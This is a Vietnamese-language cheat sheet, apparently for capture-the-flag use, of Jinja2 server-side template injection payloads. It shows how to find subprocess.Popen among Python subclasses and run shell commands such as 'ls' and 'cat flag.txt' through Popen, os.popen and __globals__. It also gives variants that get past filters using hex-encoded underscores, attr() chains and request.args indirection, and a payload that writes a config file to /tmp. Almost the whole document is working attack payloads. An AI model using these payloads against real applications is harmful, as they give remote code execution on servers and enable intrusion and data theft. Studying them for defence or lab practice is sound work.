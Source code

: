 # Jinja2 (python)


## 1. Chạy payload tìm <class ‘subprocess.Popen’> in subclasses 

`__subclasses__` là một thuộc tính nhằm liệt kê tất cả các weak references trong các lớp con của nó 

```py
{{''.__class__.mro()[1].__subclasses__()}}
```

### filter
```py
{{()|attr(‘\x5f\x5fclass\x5f\x5f’)|attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()}}
```

## 2. Tìm vị trí subprocess.Popen thủ công
```py
{{''.__class__.__mro__[1].__subclasses__()[200:]}}
```
## 3. Chạy code tìm "subprocess.Popen" xuất hiện ở index coppy paste kq in ra vào file lol.txt
```py
with open('lol.txt') as p:
    check = p.read()
for (index,value in enumerate(check.split(','))):
    if ("<class 'subprocess.Popen'>" in value):
        print(index)
```

## 4. Thay số index hiện ra vào [] //vd 258 nếu [] bị filter =>__getitem__ 
```py
{{ ''.__class__.__mro__[1].__subclasses__()[408]('ls -la',shell=True,stdout=-1).communicate()[0].strip() }}
```

### filter
```py
{{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()|attr(request.args.g)(258)('ls',shell=True,stdout=-1)|attr('communicate')()|attr(request.args.g)(0)|attr('decode')('utf-8')}}&c=__class__&b=__base__&s=__subclasses__&g=__getitem__

{{''[request.args.a][request.args.b][2][request.args.c]()[408]('cat+flag.txt',shell=dTrue,stdout=-1).communicate()[0].strip()}}&a=__class__&b=__mro__&c=__subclasses__
```

## 1 Số payload khác
```py
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()}}


```

## FILTER GLOBALS
```py
// lọc từ .__globals__ => hexa_encode thành ['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f'] 

["__globa""ls__"]

|attr('\x5f\x5fg\x6co\x62a\x6cs\x5f\x5f')

|attr('popen')('cat flag.txt')|attr('read')()}}

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}  

{{self._TemplateReference__context.cycler.__init__['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f'].os.popen('ls').read() }} 
```

## FILTER _
```py
//lọc _ ở trc class 
{{()|attr(request.args.c)}}&c=__class__
{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}

{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}

{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('ls')['read']()}}

```


